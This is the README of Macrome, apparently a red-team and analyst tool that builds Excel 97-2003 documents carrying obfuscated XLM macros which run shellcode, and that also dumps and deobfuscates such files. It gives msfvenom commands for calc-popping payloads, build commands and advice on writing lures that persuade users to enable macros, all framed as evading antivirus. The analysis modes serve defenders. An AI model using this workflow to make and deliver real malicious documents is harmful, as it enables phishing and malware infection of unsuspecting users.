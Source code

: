 # Macrome
An Excel Macro Document Reader/Writer for Red Teamers & Analysts. A corresponding blog post describing what this tool actually does can be found [here](https://malware.pizza/2020/05/12/evading-av-with-excel-macros-and-biff8-xls/).

![An example created document using the default template.](Docs/macrome.png)

# Installation / Building
Clone or download this repository, the tool can then be executed using dotnet - for example:

~~~
dotnet run -- build --decoy-document Docs\decoy_document.xls --payload Docs\popcalc.bin
~~~

or 

~~~
dotnet build
cd bin/Debug/netcoreapp2.0
dotnet Macrome.dll deobfuscate --path obfuscated_document.xls
~~~

Note that a 2.x and a 3.x build of dotnet is required for this to work as configured - they can be grabbed from  https://dotnet.microsoft.com/download/dotnet-core/2.1 and https://dotnet.microsoft.com/download/dotnet-core/3.1 respectively.

Binary releases of the tool that do not require dotnet and contain an executable binary can be found in the Release section for Windows, OSX, and Linux.

# Usage
Run Macrome by either using `dotnet run` from the solution directory, or `dotnet` against the built Macrome binary. There are two modes of operation for Macrome - Build mode and Deobfuscation mode. 

## Build Mode
Run Macrome with the `build` command in order to generate an Excel document containing an obfuscated macro sheet using a provided decoy document and macro payload. `dotnet Macrome.dll build -h` will display full usage instructions.

For example, to build a document using decoy document `path/to/decoy_document.xls` and binary x86 shellcode stored at `path/to/shellcode.bin`, run `dotnet Macrome.dll build --decoy-document path/to/decoy_document.xls --payload /path/to/shellcode.bin`. This will generate an XLS 2003 document which after being opened and having the "Enable Content" button pressed, will execute the shellcode of `shellcode.bin`.

### Binary Payload Usage
First generate a base "decoy" Excel document that will contain content users should see. This should be some sort of lure that convinces users to click the "Enable Macros" button displayed in Excel. There's some examples of the "latest and greatest" lure creation at https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-. Once this sheet is created, save the document as type `Excel 97-2003 Workbook (*.xls)` rather than the newer `Excel Workbook (*.xlsx)` format. An example decoy document is included in `/Docs/decoy_document.xls`.

Next, generate a shellcode payload to provide to the tool. The example binary payload (which pops calc) was generated using `msfvenom` using the following parameters:

~~~
 msfvenom -a x86 -b '\x00' --platform windows -p windows/exec cmd=calc.exe -e x86/alpha_mixed -f raw EXITFUNC=thread > popcalc.bin
~~~

Note that using a majority alpha-numeric payload will reduce the size of the macro file generated since it's easier to express letters and numbers in macro form instead of appending `CHAR` function invocations repeatedly like `=CHAR(123)&CHAR(124)&CHAR(125)...` etc. But the tool should be able to handle a completely unprintable binary payload as well.

As of the Macrome 0.2.0, x64 payloads can also be used with documents. The example 64-bit payload, `popcalc64.bin`, was generated using the command:

~~~
msfvenom -a x64 -b '\x00' --platform windows -p windows/x64/exec cmd=calc.exe -e x64/xor -f raw EXITFUNC=thread > popcalc64.bin
~~~

This payload can then be embedded by executing the command:

~~~
dotnet Macrome.dll build --decoy-document decoy_document.xls --payload popcalc.bin --payload64-bit popcalc64.bin
~~~

Currently 64-bit payloads will require that an x86 payload is also provided. If this isn't an issue, you can just specify garbage for the x86 payload flag.

There is eventual support for embedding .NET assemblies directly in the document, but if you want to do that right now I'd suggest using [EXCELntDonut](https://github.com/FortyNorthSecurity/EXCELntDonut/).

### Macro Payload Usage
Similar to binary payload usage, a decoy document must first be generated. Next, a text file containing the macros to run should be created. Macros should have columns separated by `;` characters and rows separated by newlines. Currently the content of macros specified will be written and executed beginning at A1 - though future support will be added to allow specifying the start location. Example macros can be found in `/Docs/macro_example.txt` and `/Docs/multi_column_macro_example.txt`.

Finally run the command:

~~~
dotnet Macrome.dll build --decoy-document decoy_document.xls --payload macro-example.txt --payload-type Macro
~~~

Note the usage of the `payload-type` flag set to `Macro`. 

You can generate a macro yourself, or you can use the wonderful [EXCELntDonut](https://github.com/FortyNorthSecurity/EXCELntDonut/) tool to create a macro for you.

## Dump Mode
Run Macrome with the `dump` command to print the most relevant BIFF8 records for arbitrary documents. This functionality is similar to [olevba](https://github.com/decalage2/oletools/wiki/olevba)'s macro dumping functionality, but it has some more complete processing of edge-case Ptg entries to help make sure that the format is as close to Excel's actual FORMULA entries as possible. This is what I've been using to debug some of the weird edge case documents I've been generating while making this tool, so it's comparably robust. I'm sure there's tons of edge cases that are not supported right now though, so if you find a document that it doesn't properly dump the content of, please open an issue and share the document as a zip file.

The dump command only requires a `path` argument pointing at the target file. An example invocation is:

~~~
dotnet Macrome.dll dump --path docToDump.xls
~~~

Most of the flags that the `dump` command are for debugging, but the `dump-hex-bytes` may be useful for users who want to see the individual byte payloads for relevant records. This is similar functionality of [BiffView](https://www.aldeid.com/wiki/BiffView), though only maldoc specific entries will be displayed by default.

## Deobfuscate Mode
Run Macrome with the `deobfuscate` command to take an obfuscated XLS Binary document and attempt to reverse several anti-analysis behaviors. `dotnet Macrome.dll deobfuscate -h` will display full usage instructions. Currently, by default this mode will:

* Unhide all sheets regardless of their hidden status
* Normalize the manually specified labels for all `Lbl` entries which Excel will interpret as Auto_Open entries despite their name not matching that string.

For example, to deobfuscate a malicious XLS 2003 macro file at `path/to/obfuscated_file.xls`, run `dotnet Macrome.dll deobfuscate --path path/to/obfuscated_file.xls`. This will generate a copy of the obfuscated file which will be easier to analyze manually or with tools.

**NOTE**: *This doesn't do very much yet, it's mainly meant to demonstrate how using the modified b2xtranslator library can help automate deobfuscation. More useful features are coming soon.* 

# Acknowledgements 
Big thanks to all the shoulders that I was able to stand on in order to write this.

* https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/ - The Outflank team created this attack, I'm just automating some of the tedious parts.
* The folks at InQuest for their excellent write-ups on what malware authors are doing to evade detection right now.
  * https://inquest.net/blog/2019/01/29/Carving-Sneaky-XLM-Files
  * https://inquest.net/blog/2020/03/18/Getting-Sneakier-Hidden-Sheets-Data-Connections-and-XLM-Macros
  * https://inquest.net/blog/2020/05/06/ZLoader-4.0-Macrosheets-
* [@DissectMalware](https://twitter.com/DissectMalware/) for their killer [XLMMacroDeobfuscator](https://github.com/DissectMalware/XLMMacroDeobfuscator) tool which has been awesome to test against and is just a really great piece of tech if you're on the defense/analyst side.
* The original authors of the `b2xtranslator` library as well as the folks at EvolutionJobs who updated it and ported it to dotnet. The code used here was initially sourced from https://github.com/EvolutionJobs/b2xtranslator.
* Imagery taken from KC Green's comic at https://gunshowcomic.com/648
